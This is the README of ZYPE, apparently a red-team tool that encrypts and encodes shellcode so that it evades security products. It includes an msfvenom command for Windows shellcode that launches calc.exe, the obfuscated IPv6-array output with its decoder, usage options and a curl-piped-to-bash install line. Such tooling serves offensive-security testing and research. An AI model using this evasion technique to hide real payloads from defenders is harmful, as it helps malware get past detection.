 # ZYPE: Your Payload Encryptor

<p align="center">
  <img alt="GitHub License" src="https://img.shields.io/github/license/CX330Blake/zype">
  <img alt="GitHub top language" src="https://img.shields.io/github/languages/top/cx330blake/zype">
  <img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/cx330blake/zype/total">
  <img alt="GitHub repo size" src="https://img.shields.io/github/repo-size/cx330blake/zype">
  <img alt="X (formerly Twitter) Follow" src="https://img.shields.io/twitter/follow/CX330Blake">

</p>

<p align="center">
  <a href="#whats-zype">What's ZYPE?</a> •
  <a href="#showcase">Showcase</a> •
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="#test">Test</a> •
  <a href="#contribution">Contribution</a> •
  <a href="#star-history">Star History</a>
</p>

<p height="300" align="center">
  <img src="./assets/ZYPE.png">
</p>

## What's ZYPE?

ZYPE: Zig Yield Payload Encryptor - Transform your shellcode into undetectable, obfuscated payloads that bypass modern security solutions.

- ⚡ Lightning Fast: Written in Zig for optimal performance and memory safety
- 🎯 Multi-Method Obfuscation: Support for AES, RC4, XOR encryption plus MAC/IPv4/IPv6/UUID address obfuscation
- 🌐 Cross-Platform Compatible: Generated decoder templates work on Windows, Linux, and macOS without API dependencies
- 🛠️ Developer Friendly: Interactive mode for easy setup, plus command-line interface for automation
- 🔒 Advanced Evasion: Multiple encoding layers make static analysis nearly impossible
- 📦 Complete Solution: Generates both obfuscated payload data and ready-to-compile decoder templates
- 🚀 Zero Dependencies: Self-contained tool with no external requirements

## Showcase

In the following example, I will use MSFvenom to generate a Windows shellcode to execute calc.exe and use ZYPE to do the IPv6 obfuscation. Let's first generate the shellcode.

```bash
msfvenom -p windows/exec CMD=calc.exe -f raw -o shellcode.bin
```

After that, we use ZYPE to help use do the obfuscation.

```bash
zype -f shellcode.bin -m ipv6 > shellcode.zig
```

This will generate the encrypted/obfuscated shellcode and the function to decrypt/deobfuscate it in a Zig file. This is the output.

```zig
const std = @import("std");
const net = std.net;

const IPV6_ARRAY: [13][]const u8 = [_][]const u8{
    "fce8:8200:0000:6089:e531:c064:8b50:308b",
    "520c:8b52:148b:7228:0fb7:4a26:31ff:ac3c",
    "617c:022c:20c1:cf0d:01c7:e2f2:5257:8b52",
    "108b:4a3c:8b4c:1178:e348:01d1:518b:5920",
    "01d3:8b49:18e3:3a49:8b34:8b01:d631:ffac",
    "c1cf:0d01:c738:e075:f603:7df8:3b7d:2475",
    "e458:8b58:2401:d366:8b0c:4b8b:581c:01d3",
    "8b04:8b01:d089:4424:245b:5b61:595a:51ff",
    "e05f:5f5a:8b12:eb8d:5d6a:018d:85b2:0000",
    "0050:6831:8b6f:87ff:d5bb:f0b5:a256:68a6",
    "95bd:9dff:d53c:067c:0a80:fbe0:7505:bb47",
    "1372:6f6a:0053:ffd5:6361:6c63:2e65:7865",
    "0000:0000:0000:0000:0000:0000:0000:0000"
};
const NUMBER_OF_ELEMENTS: usize = 13;

fn ipv6Deobfuscation(ipv6_array: []const []const u8, allocator: std.mem.Allocator) ![]u8 {
    var buffer = try allocator.alloc(u8, ipv6_array.len * 16);
    var offset: usize = 0;

    for (ipv6_array) |ip| {
        const addr = net.Address.parseIp6(ip, 0) catch return error.InvalidIpFormat;
        const ip_bytes = @as([16]u8, @bitCast(addr.in6.sa.addr));
        @memcpy(buffer[offset..offset + 16], &ip_bytes);
        offset += 16;
    }

    return buffer;
}

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const shellcode = try ipv6Deobfuscation(&IPV6_ARRAY, allocator);
    defer allocator.free(shellcode);
    std.debug.print("Decrypted shellcode length: {}\n", .{shellcode.len});
    std.debug.print("Decrypted shellcode: {any}\n", .{shellcode});
}
```

## Installation

ZYPE is now currently support Linux only, but the Windows version will be released soon.

You can simply copy and paste the following one-liner to install ZYPE.

```bash
bash <(curl -sSL https://raw.githubusercontent.com/CX330Blake/zype/main/install.sh)
```

> [!WARNING]  
> Never execute any untrusted script on your machine. Read the script first.

On the other hand, you can clone this repo and use the following command to build your own ZYRA biary.

```bash
git clone https://github.com/CX330Blake/ZYPE
cd ZYPE
# You can change the build flag on your own
zig build --release=fast
```

## Usage

```
 ___  _   _ ___  ____
   /   \_/  |__] |___
  /__   |   |    |___

ZYPE shellcode encryptor v0.1.0
Copyright (C) 2025 @CX330Blake.
All rights reserved.

ZYPE v0.1.0 - Shellcode encryptor and obfuscator

Usage: zype [options]

Options:
  -h, --help              Show this help message
  -v, --version           Show version information
  -i, --interactive       Interactive mode (guided setup)
  -m, --method <type>     Encryption/obfuscation method
  -f, --file <path>       Input shellcode file path

Supported Methods:
  mac                     MAC address obfuscation
  ipv4                    IPv4 address obfuscation
  ipv6                    IPv6 address obfuscation
  uuid                    UUID obfuscation
  aes                     AES encryption (CTR mode)
  rc4                     RC4 encryption
  xor                     XOR encryption

Examples:
  zype -i                                         # Interactive mode
  zype -m aes -f shellcode.bin > shellcode.zig    # AES encrypt shellcode.bin
  zype -m mac -f shellcode.bin                    # MAC address obfuscation
  zype --method rc4 --file sc.bin                 # RC4 encryption

Notes:
  - Interactive mode provides guided setup for all options
  - Output includes both obfuscated data and decoder template
  - Generated code is cross-platform compatible (no Windows APIs)
```

## Test

You can run the following command in the **example** directory to test the ZYPE is working normally.

```bash
./show.sh
```

You should see no error and the shellcode is decrypted/deobfuscated.

## Contribution

This project is maintained by [@CX330Blake](https://github.com/CX330Blake/). PRs are welcome if you also want to contribute to this project.

## Star history

[![Star History Chart](https://api.star-history.com/svg?repos=CX330Blake/ZYPE&type=Date)](https://www.star-history.com/#CX330Blake/ZYPE&Date)
